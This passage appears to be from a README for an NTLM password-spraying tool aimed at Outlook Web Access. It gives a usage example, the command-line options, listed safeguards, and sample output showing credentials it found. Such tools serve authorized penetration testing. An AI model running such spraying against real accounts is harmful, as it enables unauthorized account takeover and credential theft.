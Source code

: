 ```bash
  --target https://mail.example.com/owa/ \
  --output results.txt \
  --verbose
```

**Command-Line Options**:
```
Required Arguments:
  -d, --domain DOMAIN     Fully Qualified Domain Name (FQDN)
  -u, --users FILE        Username list file (one per line)
  -t, --target URL        Target URL for authentication

Password Options (choose one):
  -p, --password PASS     Single password to test
  -P, --passwords FILE    Password list file (one per line)

Optional Arguments:
  --delay SECONDS         Delay between attempts (default: 1.0)
  --threads NUM           Maximum threads (default: 5)
  --timeout SECONDS       Request timeout (default: 30)
  -v, --verbose           Enable verbose output
  -o, --output FILE       Output file for results
```

**Security Features**:
- **Rate Limiting**: Configurable delays between attempts
- **Thread Control**: Limited concurrent connections
- **Account Lockout Prevention**: Built-in safeguards
- **Comprehensive Logging**: Detailed audit trail
- **Input Validation**: Sanitized inputs and URL validation
- **Authorization Check**: Interactive authorization prompt

**Example Output**:
```
NTLM Password Spray Tool - Authorized Security Testing Only

⚠️  SECURITY WARNING
This tool is for authorized security testing only.
Ensure you have proper authorization before proceeding.

Do you have authorization to test the target? (yes/no): yes

Starting password spray attack using password: Password123
Target URL: https://mail.example.com/owa/
Testing 50 users

✓ Valid credential found - jsmith:Password123
✓ Valid credential found - mwilson:Password123

Password spray completed:
  Valid credentials found: 2
  Failed attempts: 48
  Errors: 0

FINAL RESULTS
Valid credentials found: 2
Failed attempts: 48
Errors: 0

Successful Credentials:
  jsmith:Password123
  mwilson:Password123

Detailed results saved to: ntlm_spray_results.txt
```
